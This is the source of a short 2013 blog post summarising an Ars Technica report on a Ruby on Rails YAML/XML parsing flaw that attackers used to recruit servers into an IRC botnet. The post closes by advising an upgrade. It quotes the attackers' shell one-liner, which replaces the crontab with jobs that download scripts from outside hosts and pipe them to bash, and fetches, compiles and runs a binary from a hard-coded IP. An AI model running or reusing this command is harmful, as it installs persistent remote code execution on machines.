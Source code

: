 ```yaml
---
layout: post
title:  "Ars Technica Article"
date:   2013-06-06 13:01:00
comments: false
categories: article
---
```


#### Critical Ruby on Rails bug exploited in wild, hacked servers join botnet

On May 28, 2013 an article on [Ars Technica][arstech] reported a malicious Rails bug that inflatrated any server running Rails 2.3.15 and lower. The attackers exploited a flaw in YAML and the rails Symbol type conversion XML parser. Attackers used hyjacked machines to create IRCbots to flood the #rails IRC channel.

Attackers used a unix command similar to this:
{% highlight bash %}
  crontab -r; echo \"1 * * * * wget -O - colkolduld.com/cmd1|bash;wget -O - lochjol.com/cmd2|bash;wget  -O - ddos.cat.com/cmd3|bash;\"|crontab -;wget http://88.198.20.247/k.c -O /tmp/k.c; gcc -o /tmp/k /tmp/k.c; chmod +x /tmp/k; /tmp/k||wget http://88.198.20.247/k -O /tmp/k && chmod +x /tmp/k && /tmp/k
{% endhighlight %}

Rails admins are advised to update to the latest version of Rails (4) or use [these][google] work arounds to avoid this vulnerability. 

[arstech]: http://arstechnica.com/security/2013/05/critical-ruby-on-rails-bug-exploited-in-wild-hacked-servers-join-botnet/
[google]: https://groups.google.com/forum/#!topic/rubyonrails-security/61bkgvnSGTQ/discussion
